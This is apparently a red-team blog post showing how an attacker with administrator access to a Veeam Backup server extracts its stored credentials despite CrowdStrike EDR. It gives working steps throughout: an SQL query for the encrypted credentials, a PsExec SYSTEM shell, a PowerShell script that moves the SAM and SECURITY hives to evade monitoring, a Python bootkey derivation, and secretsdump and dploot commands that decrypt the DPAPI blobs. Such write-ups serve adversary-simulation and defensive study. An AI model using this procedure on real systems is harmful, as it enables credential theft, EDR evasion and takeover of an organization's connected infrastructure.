








> Originally published on [Security Art Work](https://www.securityartwork.es/2025/05/05/veeam-backup/) (S2 Grupo) on May 5, 2025.

Many of you are surely familiar with Veeam Backup, the data protection solution that allows you to perform backups and recoveries across virtual, physical, NAS and cloud-native environments. This is because its ease of use and efficiency have made it a cornerstone in the backup strategy of many organizations.

In a context where ransomware attacks are the order of the day, Veeam Backup has established itself as an essential tool for business continuity and resilience against the new wave of threats that organizations face today.

However, what would happen if this protection solution became the entry point for a malicious actor?

One of the great advantages of Veeam Backup is its ability to integrate easily with other key solutions in IT environments. It's common to see it connected to vSphere, VMware's virtualization platform, or to NAS systems used for network data storage.

On top of that, its compatibility with multiple widely used cloud solutions, such as Azure, makes it a fundamental piece for the efficient and secure management of backups in the cloud.

In the IT world, the automation of tasks, especially when it involves integration between different software, brings significant benefits. However, it also implies certain conditions, mostly related to the authentication process. It's essential to evaluate these aspects, since they can affect security, access control and data privacy, so it's necessary to weigh their advantages and potential risks before implementing them.

In the case of Veeam Backup, its operation requires credentials that allow it to interact with and access the services mentioned above. Furthermore, due to the actions it performs, these credentials often need to have an elevated level of privilege.

This makes Veeam Backup an especially attractive target for malicious actors, not only because of its critical role in the IT infrastructure, but also because of the added value it represents: the storage of credentials that let it communicate with other services.

But the question is: where does Veeam Backup store these credentials?

Veeam Backup uses the *Veeam Backup & Replication Configuration Database* to store information about the backup infrastructure, jobs, sessions and other configuration data, such as the credentials used for interconnection with other solutions.

This database can be hosted on a Microsoft SQL Server (MSSQL) or PostgreSQL server, either locally, that is, on the same server where Veeam Backup runs, or remotely.

Since storing credentials in cleartext is not a secure option these days, Veeam Backup uses Microsoft's well-known Data Protection API (DPAPI) to encrypt them and store them as data *blobs*.

For those unfamiliar with this technology, the Data Protection API (DPAPI) is an application programming interface used in Windows systems, primarily for cryptographic operations. Its most common use is alongside Windows Credential Manager, where it handles storing credentials for browsers, services such as Remote Desktop Protocol (RDP) and other applications.

Now then, how can an adversary take advantage of this situation?

As is well known, both malicious actors and Red Team operators usually have a clear objective in mind and carry it out effectively and stealthily, avoiding triggering alarms. These objectives are usually related to compromising data storage systems, backups or even the deployment of assets. For this reason, given the volume of critical information that the Veeam Backup solution manages (performing backups, interacting with critical services such as vSphere…), it can become a high-impact breach for the organization.

An adversary seeks to fulfill their purpose by harming the organization, for example, encrypting data (**T1486**) to disrupt the availability of operations. A Red Team operator, within the scope of an adversary simulation exercise, has the mission of demonstrating the impact a real attacker could generate on the business of the organization that hires them, starting from a predefined scenario and objectives.

Many organizations rely on different types of security solutions such as Endpoint Detection and Response (EDR) systems to stop this kind of threat.

However, has it been considered that both malicious actors and Red Team operators assume the existence of these solutions and design their tactics and techniques to evade them?

On this occasion, two approaches used during one of the latest exercises carried out will be presented, which allowed the dump of the Security Account Manager (SAM) (**T1003.002**) and access to the master keys used by the Data Protection API (DPAPI) for the encryption and decryption of data blobs in environments that had Antivirus (Windows Defender, BitDefender) and Endpoint Detection and Response (EDR) (CrowdStrike). Through these two approaches, an attacker could use Veeam Backup as an entry point to compromise and gain control of multiple critical services of the organization.

## Proof of Concept (PoC)

It's important to note that, for this proof of concept (PoC), it will be assumed that the attacker has already gained control with elevated privileges over the machine where the Veeam Backup solution is deployed and has access to it.

It's also important to note that the environment where the tests were carried out had CrowdStrike's Endpoint Detection and Response (EDR).

The first step is to identify the server where the Veeam Backup solution is deployed. One possible way is using BloodHound (**S0521**), a tool specialized in enumerating Active Directory (AD) environments which, among other things, allows you to visualize the Service Principal Names (SPNs) associated with domain objects.


Once the server is identified, it will be necessary to connect to the target machine, for example, via Remote Desktop Protocol (RDP) (**T1021.001**), using an account with elevated privileges.

After this, the next step will be to identify the location, the name (of both the instance and the database itself) and the type of database used by Veeam Backup. This is achieved by accessing the following Windows registry key:

```text
HKEY_LOCAL_MACHINE\SOFTWARE\Veeam\Veeam Backup and Replication
```

Next, it will be necessary to access (**T1005**) the database using any database manager compatible with Microsoft SQL Server (MSSQL) or PostgreSQL, depending on the type identified previously. Some useful portable tools are:

- [Azure Data Studio](https://learn.microsoft.com/en-us/azure-data-studio/)
- [DBeaver](https://dbeaver.io/)



Once access is achieved, the next step will be to enumerate the credentials stored in the Veeam Backup database, which are encrypted. To obtain them, run the following SQL query:

```sql
SELECT * FROM VeeamBackup.dbo.Credentials
```



Once the credentials are obtained, we proceed with the second phase of the attack: the extraction of the Data Protection API (DPAPI) master keys, used to encrypt/decrypt the credentials.

On this occasion, leveraging the elevated privileges over the asset where the Veeam Backup service is deployed, a dump of the Security Account Manager (SAM) (**T1003.002**) will be performed. From this dump, the `DPAPI_MACHINEKEY` and `DPAPI_USERKEY` values will be obtained, which will be used to extract the master keys associated with the machine account.

For the Security Account Manager (SAM) dump (**T1003.002**), the following approach is proposed:

Leveraging the Remote Desktop Protocol (RDP) (**T1021.001**) access, a share will be mounted on the victim machine, which will contain the PsExec (**S0029**) tool from Microsoft's SysInternals suite.

Through this tool, it will be necessary to run RegEdit (the Registry Editor) with `NT Authority\System` privileges, since execution at this privilege level is required for the Security Account Manager (SAM) dump (**T1003.002**).

```cmd
PsExec64.exe -s -i regedit
```

Once the Registry Editor is open, export the following keys in `.reg` format:

```text
HKEY_LOCAL_MACHINE\SAM
HKEY_LOCAL_MACHINE\SECURITY
```



On the other hand, export the following key in `.txt` format:

```text
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa
```



To export keys, right-click on the key, select the *"Export"* option and choose the format to save it (`.reg` or `.txt`).



Since the `SAM` and `SECURITY` keys can only be dumped in binary format, the following PowerShell script is used to temporarily relocate them under `HKCU\HELLO`, re-import them and save them as `.hive` files, thereby evading the protections that monitor direct access to these keys:

```powershell
# Location of the exported files
$files = @(
    "C:\Users\Public\Documents\sam.reg",
    "C:\Users\Public\Documents\sec.reg"
)

# Modify the location of the registry keys
Write-Output "Switching HKLM\ to HKCU\HELLO in .reg files"
foreach ($filePath in $files) {
    $content = Get-Content -Path $filePath -Raw -Encoding Unicode
    $replacement = [char[]] "HKEY_CURRENT_USER\HELLO" -join ''
    $updatedContent = $content -replace "HKEY_LOCAL_MACHINE", $replacement
    Set-Content -Path $filePath -Value $updatedContent -Encoding Unicode
    Write-Output "`tUpdated file: $filePath"
}

# Import the keys into the new location
Write-Output "Importing modified .reg files in HKCU\HELLO"
reg import C:\Users\Public\Documents\sam.reg
reg import C:\Users\Public\Documents\sec.reg

# Save the keys via reg save
Write-Output "Reg saving back to .hive"
reg save HKEY_CURRENT_USER\HELLO\SAM C:\Users\Public\Documents\SAM.hive
reg save HKEY_CURRENT_USER\HELLO\SECURITY C:\Users\Public\Documents\SECURITY.hive

# Delete the temporary key
Write-Output "Removing temporary HKCU\HELLO hives"
reg delete HKEY_CURRENT_USER\HELLO /f
```

On the other hand, from the LSA key exported in `.txt` format, the following values stored in the *Class Name* attribute must be extracted:

```text
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa\GBG
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa\Data
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa\JD
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa\Skew1
```



The values obtained in the previous step must be fed into the following script in order to obtain the BootKey that allows decryption of the data from the Security Account Manager (SAM) dump (**T1003.002**) performed.

```python
# Hexadecimal values for JD, Skew1, GBG and Data
jd = bytes.fromhex("$JD")
skew1 = bytes.fromhex("$SKEW1")
gbg = bytes.fromhex("$GBG")
data = bytes.fromhex("$DATA")

# Combine the binary data
combined = jd + skew1 + gbg + data

# Permutation table for the Bootkey
permutation = [0x8, 0x5, 0x4, 0x2, 0xB, 0x9, 0xD, 0x3, 0x0, 0x6, 0x1, 0xC, 0xE, 0xA, 0xF, 0x7]

# Reorganize the bytes to generate the Bootkey
bootkey = bytes([combined[i] for i in permutation])

# Print the Bootkey in hexadecimal format
print("Bootkey:", bootkey.hex())
```


Finally, it will be possible to access the hashes stored in the Security Account Manager (SAM) locally. This is possible with tools such as impacket-secretsdump (**S0357**) or similar.

```bash
impacket-secretsdump -sam SAM.hive -security SECURITY.hive -bootkey $BOOTKEY LOCAL
```

Among the values obtained, the previously mentioned keys are needed: `DPAPI_MACHINEKEY` and `DPAPI_USERKEY`, which will be used to extract the machine account's master keys. This extraction will be performed using the [dploot](https://github.com/zblurx/dploot) tool.

This tool allows interaction with the Windows Credential Manager and Data Protection API (DPAPI) locally, that is, it's possible to mount the victim machine's file system on a controlled machine and, with the tool, perform the extraction of the master keys, for example.

To mount the file system, here's one possible approach:

```bash
sudo mount -t cifs //$IP/$SHARE /mnt/tmp -o username=$USER,password=$PASSWORD,domain=$DOMAIN
```

With the victim machine's file system mounted, the machine account's master keys must be extracted, since these are the keys with which Veeam Backup encrypts the credentials, and are therefore needed for decryption.

```bash
dploot machinemasterkeys -root /mnt/tmp -u $USER -p $PASSWORD -t LOCAL \
  -dpapi-system-key 'dpapi_machinekey:$DPAPI_MACHINEKEY,dpapi_userkey:$DPAPI_USERKEY'
```



Once the master keys are extracted, the last step is to decrypt the data blobs, these being the credentials obtained earlier from the *Veeam Backup & Replication Configuration Database*.

The tool carries out a process similar to a brute-force attack, trying each of the master keys stored in the provided file against the blob until it finds the correct key that decrypts the credential.

```bash
dploot blob -blob "$BLOB" -mkfile $MASTERKEYS_FILE -t LOCAL
```



After this, it's possible to access all the critical services connected to the Veeam Backup service, gaining control and elevated privileges over the IT environment and being able to focus its objectives on the organization's business.

## Conclusion

This example has shown how an adversary can come to take control of an organization's IT infrastructure, even when it has a security solution in place, such as an Endpoint Detection and Response (EDR).

It has been demonstrated how software originally designed to protect the organization's data against attacks, such as ransomware, can become an access route for attackers, allowing them to compromise multiple critical services, generating a high-impact breach for the organization.

## Additional resources

- [dploot](https://github.com/zblurx/dploot)
- [Bypassing EDR to dump LSA secrets](https://www.orangecyberdefense.com/global/blog/cybersecurity/bypassing-edr-to-dump-lsa-secrets)
